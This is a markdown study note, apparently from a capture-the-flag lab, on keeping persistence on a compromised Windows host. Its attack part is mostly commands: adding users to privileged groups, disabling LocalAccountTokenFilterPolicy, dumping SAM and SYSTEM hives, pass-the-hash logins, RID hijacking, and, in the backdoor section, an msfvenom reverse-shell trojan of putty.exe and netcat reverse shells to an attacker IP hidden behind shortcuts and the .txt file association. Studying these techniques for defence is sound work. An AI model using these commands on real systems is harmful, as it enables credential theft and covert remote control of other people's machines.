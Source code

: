 - Refers to creating alternate ways to regain access to a host after gaining administrative access without going through the exploitation phase all over again.
- Many reasons to quickly establish persistence
	- Re-exploitation isn't always possible due to unstable exploits.
	- Gaining foothold is hard to reproduce, like phishing campaigns.
	- Any vulnerabilities used to gain access might be patched if action is detected.
- ## *Tampering with Unprivileged Users*
	- Manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrator privileges somehow.
	- #### *Assign Group Memberships*
		- Assuming that the password hashes for unprivileged users were already dumped and successfully cracked any of them.
		- Using `net localgroup administrators thmuser0 /add` to add the user `thmuser0` to the administrators group.
		- If this looks too suspicious, use the group `Backup Operators`, users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL.
			- Allowing us to copy the content of the SAM and SYSTEM registry hives, which can be used to recover the password hashes for all users, enabling us to escalate to any administrative account easily.
			- Using `net localgroup "Backup Operators" thmuser1 /add` and since this unprivileged user can't RDP or WinRM back to the machine, add it to the `Remote Desktop Users` (RDP) or `Remote Management Users` (WinRM) groups `net localgroup "Remote Management Users" thmuser1 /add`.
			- Check for the group assigned using `whoami /groups` and make sure that the groups aren't disabled. This is due to the `User Account Control` which implements a feature called `LocalAccountTokenFilterPolicy` that strips any local account of its administrative privileges when logging in remotely.
			- Disable the `LocalAccountTokenFilterPolicy` by changing the the registry key to 1 `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`.
			- After that, establish a WinRM connection using `evil-winrm -i <ip> -u <user> -p <password>`.
			- Check for the assigned groups using `whoami /groups`.
			- Backup the SAM and SYSTEM files using `reg save hklm\sam sam.bak` and `reg save hklm\system system.bak` then download them to the attacking machine using `download system.bak` and `download sam.bak`.
			- In case WinRM takes a lot of time to download the files, try other file transfer methods.
			- Dump the passwords using `python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`.
			- After getting the hash, perform a Pass-the-Hash to connect to the victim `evil-winrm -i <ip> -u Administrator -H <hash>`.
	- #### *Special Privileges and Security Descriptors*
		- A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership.
		- Special groups are only special because the operation system assigns them specific privileges by default.
		- In the case of Backup Operators, they have `SeBackupPrivilege` and `SeRestorePrivilege` by default.
		- These privileges can be assigned to any user
			- First export the current configuration to a temp file `secedit /export /cfg config.inf`.
			- Open the file and add a user to the lines in the configuration regarding the `SeBackupPrivilege` and `SeRestorePrivilege`.
			- Convert the .inf file into a .sdb file which is used to load the configuration back into the system `secedit /import /cfg config.inf /db config.sdb` then `secedit /configure /db config.sdb /cfg config.inf`.
			- Now, we should have a user with equivalent privileges to any Backup Operator, but the user still cant login to the system using WinRM.
			- Instead of adding the user to the `Remote Management Users` group, change the security descriptor associated with the WinRM service to allow the user to connect.
			- Security Descriptors are like ACLs but applied to other system facilities.
			- Open the configuration window for WinRM's security descriptor using `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` in PowerShell, this will open a window where we can add a user and assign full privileges to connect to WinRM.
			- After that connect with WinRM and recover the password hashes from the SAM and SYSTEM and connect back with the Administrator user.
			- Use `evil-winrm -i <ip> -u Administrator -H <hash>` to connect with Administrator user.
			- For the user to work with the given privileges fully, change the `LocalAccountTokenFilterPolicy` registry key using  `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`.
			- Check user's groups using `net user thmuser2`, since we didn't add the user to any group, nothing is suspicious.
			- Assuming that the credentials of the user are dumped, connect using WinRM.
	- #### *RID Hijacking* 
		- Changing some registry values to make the operating system think you are the Administrator.
		- When a user is created, an identifier called Relative ID (RID) is assigned to them. The RID is a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID.
		- If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
		- By default, the Administrator account is assigned `RID 500`and a regular user is assigned `RID >= 1000`.
		- Find assigned RIDs using `wmic useraccount get name,sid`, the RID is the last bit of the SID.
		- Access the SAM using Regedit to assign the Administrator RID to an unprivileged user. The SAM is restricted to the SYSTEM account only, even the Administrator won't be able to edit it.
		- To run Regedit as SYSTEM, use psexec `Psexec64.exe -i -s regedit`.
		- Go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user, using the found RID of the unprivileged user (converting it to hex), there will be a value called `F` which holds the user's RID at position `0x30`.
		- The RID is stored using little-endian notation, so its bytes appear reversed.
		- Replace those two bytes with the RID of Administrator in hex `500 = 0x01F4` switching the bytes around to `F401`.
		- The next time this user logs in, LSASS will associate it with the same RID as Administrator.
- ## *Backdooring Files*
	- Tampering with files that the user interacts with regularly to plant backdoors that will get executed whenever the user accesses them, and to keep a low profile and not alert the user, the file should keep working normally.
	- #### *Executable Files*
		- In case of an executable found laying around in the desktop, there is a high chance that the user use it frequently.
		- For example, found a shortcut to PuTTY lying around, if we check the properties, it usually points to `C:\Program Files\PuTTY\putty.exe`.
		- Download the executable from the target machine and modify it to  run any payload we want.
		- Using `msfvenom` to plant any payload into a .exe file, the binary will still work as usual but executes an additional payload silently by adding an extra thread in your binary `msfvenom -a x64 --platform windows -x putty.exe -k -p windows\x64\shell_reverse_tcp lhost=<attack-ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`.
	- #### *Shortcut Files*
		- In case we don't want to alter an executable, we can alter the shortcut itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.
		- For example, altering the shortcut `calc`, right-click and select properties, look at the `Target` field pointing to the `calc.exe` file.
			- Before hijacking the target, create a simple PowerShell script in `C:\Windows\System32` or any other sneaky location.
			- The script will execute a reverse shell and run `calc.exe` from the original location on the shortcut's properties.
			- The script contains
				`Start-Process -NoNewWindow "C:\tools\nc64.exe" "-e cmd.exe <attack-ip> 4445`
				`C:\Windows\System32\calc.exe`
			- Then change the shortcut's target to point to the script created above.
			- Sometimes the shortcut's icon changes, point the icon back to the original executable.
			- The shortcut's target should contain `powershell.exe -WindowStyle hidden c:\Windows\System32\backdoor.ps1`.
			- Open a netcat listener to catch the reverse shell.
	- #### *Hijacking File Associations*
		- This forces the operating system to run a shell whenever the user opens a specific file type.
		- The default operating system file associations are kept inside the registry, where a key is stored for every file type under `HKLM\Software\Classes\`.
		- The Programmatic ID (ProgID) is an identifier to a program installed on the system that's in charge of handling the associated file which is at the (Default) row and Data column, in case of `.txt` files, its `txtfile`.
		- Searching for the subkey for the corresponding ProgID also under `HKLM\Software\Classes`, for this example, `HKLM\Software\Classes\txtfile\shell\open\command`.
		- Replace the command in Data column to with a script that executes a backdoor and then opens the file as usual.
		- Create the script and save it to `C:\Windows\backdoor2.ps1`, the script should contain
			`Start-Process -NoNewWindow "c:\tools\nc64.exe "-e cmd.exe <attacker-ip> 4448"`
			`C:\Windows\System32\NOTEPAD.EXE $args[0]`
		- Set the Data column should contain `powershell -windowstyle hidden C:\Windows\System32\backdoor2.ps1 %1`.
		- Create a listener to catch the reverse shell.